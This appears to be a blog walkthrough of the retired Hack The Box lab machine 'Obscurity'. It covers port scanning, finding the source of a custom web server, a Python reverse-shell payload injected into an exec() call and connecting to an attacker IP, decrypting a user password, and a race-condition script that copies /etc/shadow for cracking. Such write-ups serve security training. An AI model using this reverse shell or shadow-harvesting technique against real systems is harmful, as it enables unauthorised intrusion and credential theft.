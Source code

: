```yaml
---
layout: default
---
```

## Obscurity
###### Retired [date]
![](https://www.hackthebox.eu/storage/avatars/8c606d79541774c87ab0ee5705821323.png)

##### Intro
Static code analysis! Initial foothold was very easy, user was a little more involved, and root was quick. Full-time developers would absolutely crush this box.

Start off with a quick nmap looking for open ports:
```bash
nmap -sS -n -n obscurity.htb -p 1-65535
```

![](https://yaboygmoney.github.io/htb/images/obscurity/nmap1.png)

nmap showed ssh and http open on 22 and 8080, respectively. For more information, I ran
```bash
nmap -sV -n obscurity.htb -p 22,80,8080 -oN nmap.results
```

![](https://yaboygmoney.github.io/htb/images/obscurity/nmap2.png)

It appears as though the website is being ran on a custom web server, confidently named BadHTTPServer. Open up ```http://obscurity.htb:8080``` in Firefox and land on a web page.

![](https://yaboygmoney.github.io/htb/images/obscurity/webpage.png)

Scrolling down, there's a note to the devs that the current source is located in a development directory.

![](https://yaboygmoney.github.io/htb/images/obscurity/devNote.png)

We can find this quickly with a tool called ```wfuzz```. ```wfuzz``` lets you fuzz particular segments of a URL by replacing what part you would like to fuzz with ```FUZZ```. All it needs is a wordlist and the URL. ```wfuzz``` will print out the result of each request it makes, so it's helpful to find only the responses that come back valid. To do that, just take on ```| grep -v 404``` to ingore the 404 File Not Found results. The whole command looks like
```bash
wfuzz -w /usr/share/wordlists/dirb/common.txt http://10.10.10.168:8080/FUZZ/SuperSecureServer.py | grep -v 404
```

![](https://yaboygmoney.github.io/htb/images/obscurity/wfuzz.png)

wfuzz found the valid URL ```http://obscurity.htb:8080/develop/SuperSecureServer.py```. There, we can see the source code for the server.

![](https://yaboygmoney.github.io/htb/images/obscurity/serverCode.png)

Looking down towards the bottom of the code, there are some comments on a couple of lines of code.
```python
def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
            if path == "/":
                path = "/index.html"
```

The [exec](https://pythonprogramming.net/python-exec-tutorial/) builtin allows developers (and hackers) to execute python code from within that input. To abuse this for a shell, a netcat listener is required.
```bash
nc -nvlp 1234
````

Now that the listener is set up to catch the shell, we need to send a get request to
```bash
http://obscurity.htb:8080/';s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.28",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

This web request injects the [python reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) into the ```exec``` function, causing our payload to be executed. Make the request either via curl or through the browser (I went browser) and bam, shell.

![](https://yaboygmoney.github.io/htb/images/obscurity/initialShell.png)

Once we land on the machine as www-data, we need to elevate our privileges to get user. We can see in the user robert's home directory there is a ```SuperSecureCrypt.py``` file, as well as a ```passwordreminder.txt``` file. 

![](https://yaboygmoney.github.io/htb/images/obscurity/robertDir.png)

Looking at the ```SuperSecureCrypt.py```, the program takes an input file to encrypt or decrypt, a string value for the key, and an output file. 

![](https://yaboygmoney.github.io/htb/images/obscurity/parser.png)

We're also given ```check.txt``` file and the output of the encryption in the form of ```out.txt```. 

![](https://yaboygmoney.github.io/htb/images/obscurity/checkOut.png)

The cool part is that we don't need to reverse engineer the encryption process if we have two pieces already. We can just unmath it. To do that, I sent the input file to be decrypted as the output, the key as the contents of check.txt, and set the ```-d``` option. The output will be the key that was used to encyrpt the file.

```bash
python3 SuperSecureCrypt.py -i out.txt -k "$(cat check.txt)" -d -o /tmp/ybgm.txt
```
The result kicked out the key ```alexandrovich``` several times over. Now we can run the same command again but to decrypt the ```passwordreminder.txt``` file and passing the output of our previous command as the key.

![](https://yaboygmoney.github.io/htb/images/obscurity/keyCrack.png)

```bash
python3 SuperSecureCrypt.py -i passwordreminder.txt -k "($cat /tmp/ybgm.txt)" -o /tmp/ybgm2.txt -d
```

The contents of the new file contain robert's password: ```SecThruObsFTW```.

![](https://yaboygmoney.github.io/htb/images/obscurity/password.png)

Now we can SSH in as robert and get out of this web-based shell and more importantly: get user.

```bash
ssh robert@obscurity.htb
cat user.txt
```

![](https://yaboygmoney.github.io/htb/images/obscurity/user.png)

```sudo -l``` shows that we can run the ```/home/robert/BetterSSH/BetterSSH.py``` file as root.

![](https://yaboygmoney.github.io/htb/images/obscurity/sudoL.png)

The file has permissions of ```-rwxr-xr-x 1 root   root```. I can't change it, as root owns the file, so I need a different way than just overwriting or editing the file. I started looking through the code to find a vulnerability, similar to the web server I exploited earlier.

The code segment that we care the most about looks like this:
```python
path = ''.join(random.choices(string.ascii_letters + string.digits, k=8))
session = {"user": "", "authenticated": 0}
try:
    session['user'] = input("Enter username: ")
    passW = input("Enter password: ")

    with open('/etc/shadow', 'r') as f:
        data = f.readlines()
    data = [(p.split(":") if "$" in p else None) for p in data]
    passwords = []
    for x in data:
        if not x == None:
            passwords.append(x)

    passwordFile = '\n'.join(['\n'.join(p) for p in passwords]) 
    with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
    salt = ""
    realPass = ""
    for p in passwords:
        if p[0] == session['user']:
            salt, realPass = p[1].split('$')[2:]
            break
```

This code is opening up ```/etc/shadow``` and writing the contents to a password file in ```/tmp/SSH``` with a random filename so later it can compare the results of a provided password to authenticate to this 'better' SSH application. Unfortunately, it's deleting the file as soon as it's finished with it, making it impossible to manually read it during program execution. 
```python
if hash == realPass:
        print("Authed!")
        session['authenticated'] = 1
    else:
        print("Incorrect pass")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    os.remove(os.path.join('/tmp/SSH/',path))
except Exception as e:
    traceback.print_exc()
    sys.exit(0)
```

On first run, the code breaks because ```/tmp/SSH``` doesn't exist, so that needs to be created first.
```bash
mkdir /tmp/SSH
```

To catch the contents of the file that is written before it is deleted, I wrote a script that constantly reads the contents of the all of the files in the ```/tmp/SSH``` directory and write them to a new file that wouldn't be deleted. We need to read every file in this directory regardless of name, because the first line of the ```BetterSSH.py``` file is creating a random filename
```python
path = ''.join(random.choices(string.ascii_letters + string.digits, k=8))
```

The script to catch the temp files looks like:

```bash
#!/bin/bash

while :
do
  cat /tmp/SSH/* >> /tmp/results.txt
done
```
I kicked off that script and then I used another window to SSH back in as robert. Then I ran
```bash
sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```
and logged in as robert and then killed the execution of my other script. Then I opened the ```/tmp/results.txt``` file and had the contents of the shadow file.

![](https://yaboygmoney.github.io/htb/images/obscurity/dumped.png)

From there, it was as easy as running the hash through ```john``` and logging in.

![](https://yaboygmoney.github.io/htb/images/obscurity/crackedRoot.png)

![](https://yaboygmoney.github.io/htb/images/obscurity/root.png)

![](https://media.giphy.com/media/l4JySAWfMaY7w88sU/giphy.gif)
